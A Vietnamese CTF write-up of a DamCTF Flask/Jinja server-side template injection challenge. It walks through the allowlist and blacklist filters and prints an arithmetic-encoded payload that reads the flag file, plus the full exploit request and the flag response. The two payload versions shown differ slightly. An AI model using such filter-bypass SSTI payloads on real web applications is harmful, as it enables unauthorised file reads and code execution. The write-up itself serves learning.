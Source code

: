 # super-secure-translation-implementation challenge

Khi mình làm đến challenge này thì thời gian cuộc thi cũng sắp hết. Đến khi kết thúc mình vẫn chưa giải ra, server vẫn chưa đóng nên mình vẫn cố giải quyết nó vì đây là thử thách liên quan đến SSTI
flask/jinja.

## Recon
Thử thách cung cấp một file docker có các routes như sau:
```
@server.route("/") => app.py 
@server.route("/<path>") => app.py if the resource is nonexistent
@server.route("/secure_translate/") => print(f"Payload parsed: {payload}") - payload parameter is user controlled input. Vulnerable to SSTI.
```
File docker cho thấy rằng tất cả các file đều nằm trong thư mục gốc của web, vì vậy chỉ cần điều hướng đến trực tiếp thông qua trình duyệt.

Trong `/check.py` có một allowList được sử dụng cho payload

`allowList = ["b", "c", "d", "e", "h", "l", "o", "r", "u", "1", "4", "6", "*", "(", ")", "-", "+", "'", "|", "{", "}"]
`
Do đó sử dụng một trong các kí tự không có trong list sẽ gây ra lỗi.

## Filter

1. Ngoài ra ứng dụng còn có bộ lọc jinja tùy chỉnh:

```
# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```

2. Thêm một số chuỗi khác trong blacklist

Trong `/filter.py` thêm một bộ lọc khác bằng cách đưa vào blacklist một số strings được chuyển đến eval: 
```
forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]
```

Ngoài ra, 4 ký tự đầu tiên không thể là "open" và "eval": 

```
if x[0:4] == "open" or x[0:4] == "eval":
  return "Not That Easy ;)"
```
Ứng dụng chỉ cho phép tối đa 161 kí tự, nhiều thế nên thôi tạm bỏ qua.

## Exploitation

Chỉ sử dụng các ký tự trong danh sách cho phép là không đủ để tạo ra payload khai thác, 
vì vậy phải làm thế nào để mở rộng bảng chữ cái của mình bằng cách sử dụng số học cơ bản và bộ lọc jinja để chuyển đổi chuỗi.
Trong jinja các biến có thể được sửa đổi bằng bộ lọc . Các bộ lọc được tách ra khỏi biến bởi một ký hiệu ống ( | ) và có thể có các đối số tùy chọn trong dấu ngoặc đơn. 
Nhiều bộ lọc có thể được xâu chuỗi. Đầu ra của một bộ lọc là áp dụng cho tiếp theo. 

Ví dụ, {{ name|striptags|title }}sẽ xóa tất cả các thẻ HTML khỏi biến name và title-case và đầu ra sẽ xử lí như sau ( title(striptags(name))).

Trong python 'ch' filter trả về một kí tự dựa trên số ascii

```
>>> print(chr(103))
g
```
Trong thử thách này chỉ sử dụng được các chữ cái trong allowlist là : 1, 4, 6. Nhưng như thế là đủ vì mình có thể cộng trừ các số để thành một số phù hợp.

Payload của mình có dạng: `{{\ropen('flag').read()}}`

tương đương với: 
```
{{((6%2b6%2b1)|ch%2b'o'%2b(111%2b1)|ch%2b'e'%2b(111-1)|ch%2b'("'%2b(46%2b1)|ch%2b(61%2b41)|ch%2b'l'%2b(111-14)|ch%2b(61%2b41%2b1)|ch%2b'"'%2b')'%2b46|ch%2b're'%2b(111-14)|ch%2b'd()')|e}}
```

Gửi requests và nhận được flag trong phần reponse:

```
GET /secure_translate/?payload={{((6%2b6)|ch%2b'o'%2b(111%2b1)|ch%2b'e'%2b(111-1)|ch%2b'("'%2b(46%2b1)|ch%2b(61%2b41)|ch%2b'l'%2b(111-14)|ch%2b(61%2b41%2b1)|ch%2b'"'%2b')'%2b46|ch%2b're'%2b(111-14)|ch%2b'd()')|e}} HTTP/2

Host: super-secure-translation-implementation.chals.damctf.xyz

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Dnt: 1

Upgrade-Insecure-Requests: 1

Sec-Gpc: 1

Te: trailers

.
.
.

HTTP/2 200 OK

Content-Type: text/html; charset=utf-8

Date: Tue, 09 Nov 2021 16:01:30 GMT

Server: gunicorn

Content-Length: 744

   <code>
   
      <p>dam{p4infu1_all0wl1st_w3ll_don3}
      
</p><a href="/">Take Me Home</a>

    </code>
```


Ref : [jinja filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#filters)


